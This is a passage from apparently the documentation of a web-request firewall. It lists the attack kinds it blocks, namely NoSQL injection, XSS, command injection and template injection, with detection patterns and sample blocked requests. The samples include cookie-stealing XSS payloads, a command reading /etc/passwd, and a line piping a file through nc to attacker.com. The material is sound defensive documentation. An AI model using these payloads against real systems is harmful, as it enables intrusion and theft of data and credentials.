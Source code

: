 **Example Blocked Requests:**
```
POST /api/users {"username": {"$ne": null}, "password": {"$ne": null}}
GET /search?filter[$where]=function(){return true}
```

---

### 4. **XSS (Cross-Site Scripting) Protection** ✅
Blocks Stored, Reflected, and DOM-based XSS attacks.

**Detected Patterns:**
- `<script>` tags
- Event handlers (`onclick`, `onerror`, `onload`)
- JavaScript protocol (`javascript:`)
- Data URIs (`data:text/html`)
- HTML injection (`<iframe>`, `<embed>`, `<object>`)
- DOM manipulation (`document.cookie`, `window.location`)

**Example Blocked Requests:**
```
GET /search?q=<script>alert('XSS')</script>
GET /profile?name=<img src=x onerror=alert(1)>
POST /comment content=<svg onload=alert(document.cookie)>
```

---

### 5. **Command Injection Protection** ✅
Detects operating system command injections.

**Detected Techniques:**
- Shell metacharacters (`;`, `|`, `&`, `` ` ``)
- Command substitution (`$(cmd)`, `` `cmd` ``)
- Command chaining (`&&`, `||`)
- System binaries (`bash`, `sh`, `nc`, `curl`, `wget`)

**Example Blocked Requests:**
```
GET /ping?host=localhost; cat /etc/passwd
POST /exec cmd=`whoami`
GET /download?file=test.txt|nc attacker.com 1234
```

---

### 6. **Server-Side Template Injection (SSTI) Protection** ✅
Blocks template engine attacks.

**Detected Patterns:**
- Jinja2/Flask templates (`{{`, `{%`)
- JSP/Spring EL (`${}`)
- Ruby interpolation (`#{}`)
- Razor syntax (`@{}`)
- Constructor access, dunder methods
